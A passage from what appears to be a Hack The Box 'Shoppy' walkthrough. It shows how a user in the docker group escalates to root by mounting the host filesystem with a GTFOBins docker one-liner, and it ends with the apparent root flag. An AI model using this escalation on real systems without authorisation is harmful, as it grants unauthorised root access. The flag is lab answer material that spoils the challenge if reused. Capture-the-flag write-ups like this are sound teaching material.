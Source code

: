
deploy user is on the docker group, so we can try some docker privesc as suggested by linpeas. Since docker is installed with root, we cna mount the whole filesystem into the container and access to it with such permissions. We can use this [GTFOBin](https://gtfobins.github.io/gtfobins/docker/#shell):


<p align="center">
  <img src="/images/walkthroughs/hackthebox/shoppy/7_1_docker.png" width="90%"/>
</p>


```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

And we get a shell with root:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shoppy/8_0_root.png" width="90%"/>
</p>


``` 4222901caf446e78ed7d67fed7764a4e ```
